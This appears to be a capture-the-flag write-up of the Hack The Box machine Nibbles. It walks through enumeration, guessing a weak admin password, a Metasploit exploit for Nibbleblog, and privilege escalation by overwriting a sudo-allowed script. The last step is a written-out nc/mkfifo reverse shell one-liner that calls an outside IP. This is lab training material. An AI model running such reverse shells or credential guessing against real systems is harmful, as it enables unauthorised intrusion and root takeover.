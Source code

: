 ```yaml
---
title: "Nibbles — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for Nibbles Hackthebox Machine"
date: 2021-01-24 11:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
---
```



## Introduction

![](/img/HTB/Nibbles/Nibbles.png)

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

#### Used Tools:
- Nmap
- Gobuster
- Searchsploit
- Metasploit
- Unzip

## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/Nibbles/img (1).png)

As seen there are 2 open ports, Port 20 for an SSH service and Port 80 for HTTP service, Let’s check the HTTP first…

![](/img/HTB/Nibbles/img (2).png)

This looks empty… Let’s check the page source

![](/img/HTB/Nibbles/img (3).png)

Simply it contain the header for the hello world title and a comment down inform us to go to `/nibbleblog/` as there is nothing here in this page, and here we go

![](/img/HTB/Nibbles/img (4).png)

After a lot of navigating through the website I found nothing every thing returns me to this home page.

So I google about nibbleblog and fount it is a powerful engine for creating blogs using PHP.

Let’s enumerate the directories using **gobuster**:

![](/img/HTB/Nibbles/img (5).png)

Of course the enumeration of the previous `http://10.10.10.75/` gives nothing important, but as expected the `http://10.10.10.75/nibbleblog/` gives us some promising directories as nibbleblog/admin.php and nibbleblog/README, so let’s check the README page…

![](/img/HTB/Nibbles/img (6).png)

It contain a description for the site and some installation guide which we won’t use bit it gaves us its version. Let’s check the nibbleblog/admin.php

![](/img/HTB/Nibbles/img (7).png)

After a quick google didn’t bring up a set of default credentials, I tried alot of default password with the username admin but it ended up being blacklisted by the application…

After waiting around a minute we’re taken off the blacklist and can access the login page once again. The general rule of thumb here is to think like a lazy sysadmin. After a few attempts I ended up finding the credentials `admin:nibbles`.


## 2. EXPLOITATION:

During i was stuck in the admin panel i searched for the Nibbleblog in the `searchsploit` for a public exploit:

![](/img/HTB/Nibbles/img (8).png)

I found an exploit `(38489)` with the exact version of our targeted nibbleblog as seen in the README file and the more interesting that it is supported by metasploit, The exploit: Nibbleblog contains a flaw that allows an authenticated remote attacker to execute arbitrary PHP code.

so let’s open **metasploit** and use it:

![](/img/HTB/Nibbles/img (9).png)

The exploit require a username and a password in it’s options so then i figured that we must have a username and password so i returned to the admin panel but now we have them so we will set the options and exploit it.

![](/img/HTB/Nibbles/img (10).png)

And the exploit succeeded, Now we have a **meterpreter** session

![](/img/HTB/Nibbles/img (11).png)

So let’s go to the / directory and then to the home directory where we will find a user file called nibbler, go through it we will find user.txt

BOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM !!! Now we had a user flag :D


## 3. PRIVILEGE ESCALATION:

There are a lot of commands that couldn’t be done using the meterpreter shell so we can escape this by typing “shell” in the meterpreter shell… and then upgrade our shell using

```bash
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

Now let’s list the user’s privileges using:

```bash
sudo -l
```

![](/img/HTB/Nibbles/img (12).png)

Here we go, our user (nibbler) can execute the bash script `monitor.sh with root privileges`, let’s check it…

Monitor.sh is in personal but it is zipped in the nibbler directory so we have to unzip it with the unzip tool

```bash
unzip personal.zip
```

![](/img/HTB/Nibbles/img (13).png)

Now we have 2 options:

- We **append** a reverse shell in the bash script so when it is executed as root the reverse shell will connect us as root
- We **overwrite** the monitor.sh file with the reverse shell

I will use the second one as it’s faster and easier...

```bash
echo ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.130 1234 >/tmp/f’ > monitor.sh
```

You’ll find this reverse shell payload on PayloadsAllTheThings then create a listener in other tab on the port 1234 then execute it as root using:
PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```bash
sudo -u root ./monitor.sh
```
![](/img/HTB/Nibbles/img (14).png)

BOOOOOOOOOOOOOOOOOOOOM!!!!! Now we are root :D


Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***